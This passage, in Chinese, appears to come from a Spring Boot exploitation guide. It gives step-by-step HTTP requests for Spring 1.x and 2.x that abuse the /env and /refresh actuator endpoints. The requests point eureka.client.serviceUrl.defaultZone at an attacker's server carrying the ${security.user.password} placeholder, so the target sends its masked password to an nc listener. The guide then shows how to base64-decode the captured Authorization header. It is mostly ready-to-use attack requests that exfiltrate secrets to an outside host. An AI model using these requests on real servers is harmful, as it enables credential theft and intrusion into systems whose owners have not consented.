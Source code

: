 spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```

##### 步骤四： 刷新配置

spring 1.x

```php
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/refresh
Content-Type: application/json
```

##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```php
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 \* 脱敏前的属性值明文。

### 0x05：获取被星号脱敏的密码的明文 (方法三)

#### 利用条件：

- 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名
